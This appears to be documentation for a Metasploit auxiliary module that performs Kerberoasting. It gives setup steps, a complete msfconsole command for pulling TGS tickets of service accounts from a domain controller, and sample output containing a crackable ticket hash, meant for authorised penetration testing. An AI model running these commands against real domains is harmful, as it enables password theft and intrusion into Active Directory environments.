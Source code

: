 ## Description

This module will try to find Service Principal Names (SPN) that are associated with normal user accounts on the specified domain and then submit requests to retrive Ticket Granting Service (TGS) tickets for those accounts, which may be partially encrypted with the SPNs NTLM hash. After retrieving the TGS tickets, offline brute forcing attacks can be performed to retrieve the passwords for the SPN accounts.

## Verification Steps

To avoid library/version conflict, it would be useful to have a pipenv virtual environment.

* `pipenv --two && pipenv shell`
* Follow the [impacket installation steps](https://github.com/CoreSecurity/impacket#installing) to install the required libraries.
* Have a domain user account credentials
* `./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'`
* Get Hashes

## Scenarios

```
$ ./msfconsole -q -x 'use auxiliary/gather/get_user_spns; set rhosts <dc-ip> ; set smbuser <user> ; set smbpass <password> ; set smbdomain <domain> ; run'
rhosts => <dc-ip>
smbuser => <user>
smbpass => <password>
smbdomain => <domain>
[*] Running for <domain>...
[*] Total of records returned <num>
[+] ServicePrincipalName                              Name        MemberOf                                                                          PasswordLastSet      LastLogon           
[+] ------------------------------------------------  ----------  --------------------------------------------------------------------------------  -------------------  -------------------
[+] SPN...              User...   List...  DateTime... Time... 
[+] $krb5tgs$23$*user$realm$test/spn*$<data>
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
